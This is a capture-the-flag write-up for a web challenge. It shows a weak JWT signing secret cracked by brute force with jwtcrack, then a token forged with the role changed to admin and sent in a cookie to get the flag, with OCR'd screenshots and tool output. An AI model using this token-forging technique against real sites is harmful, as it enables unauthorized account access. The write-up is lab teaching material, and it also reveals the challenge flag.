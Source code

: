 # Super Admin
> Comfort food.

## About the Challenge
We were given a website without the source code, and we need to login as admin in order to get the flag


[Image extracted text: Login as:
User
Admin (Not for youl)
Go to Profile]



[Image extracted text: Welcome, User!
Only an admin can see the flag!]


## How to Solve?
Because there is a JWT token in the website cookie, You can use jwt.io to inspect the cookie


[Image extracted text: Encoded
PASTE A TOKEN HERE
Decoded
EDIT THE PAYLOAD AND SECRET
HEADER: ALGORITHM & TOKEN TYPE
eyJhbGciOiJIUZIINiIsInRScCI6IkpXVCJ9
ey
Jyb2xlIjoidXNlciIsImlhdCI6MTYSODYZNTMZN
"alg'
HS256 "
X0.yozk78J3cGuLtlofBxUCnUoagoROwOxXoA3O
JWT
o3hhbug
PAYLOAD: DATA
role
user
"iat
1698665335
VERIFY SIGNATURE
"typ"]


We need to change `"role": "user"` to `"role": "admin"`, but we need to know the password first. The first thing that came to my mind was bruteforcing the key. I used https://github.com/Sjord/jwtcrack to crack the password. Here is the result:

```
Cracking JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODY2NTMzNX0.yozk78J3cGuLt1ofBxUCnUoagoR9wOxXoA30o3hh6ug
27it [00:00, 12833.89it/s]
Found secret key: password1
```

Change the value from `user` to `admin` using the cracked password


[Image extracted text: HEADER: ALGORITHM & TOKEN TYPE
eyJhbGciOiJIUZIINiIsInRScCI6IkpXVCJg
ey
JybzxlIjoiyWRtal4iLCJpYXQiOjE2OTg2NjUzM
"alg"
HS256
zV9 . XYaPInlrLD8qKprBgWjEkQfWuwyBEOtkSos
"typ'
JWT
zeSwqxzk
PAYLOAD: DATA
role"
admin'
"iat
1698665335
VERIFY SIGNATURE
HMACSHA256
base64UrlEncode(header)
+
+
base64UrEncode (payload) _
lpassword1
secret
base64
encoded]


Replace the old token with the new JWT token to obtain the flag


[Image extracted text: Request
Response
Pretty
Raw
Hex
51
In
=
Pretty
Raw
Hex
Render
5
In
GET
Iprofile HTTP/1.1
HTTP/1.1
200
OK
Host
bluehens-web-cookies. chals.io
2
X-Powered-By
Express
Cookie:
creds=
Content-Type
text/html;
charset-utf-8
eyJhbGci iJIUzI NilsInRScCI6IkpXVCJ9.eyJybZxlIjoiYWRtaW4iLCJpYXQi
Content-Length:
87
OjEZOTg2NjUzMzV9. XYaPInWrLD8GKprBgWjEkQfWuwyBEOtkSoszeSwqx2k
5
W/"57-bL3+PSQvZvlIdloxxBKUTBr34FE"
6
Date
Mon ,
30
Oct
2023
11:35:04
GMT
5
Connection:
keep-alive
Keep-Alive
timeout=5
10
<hz>
Welcome,
Admin!
</hz>
<p>
Here
is
your
UDCTF{k33p_17_51mp13_S7upld_15_4_l1e}
</p>
ETag:
flag:]


```
UDCTF{k33p_17_51mp13_57up1d_15_4_l1e}
```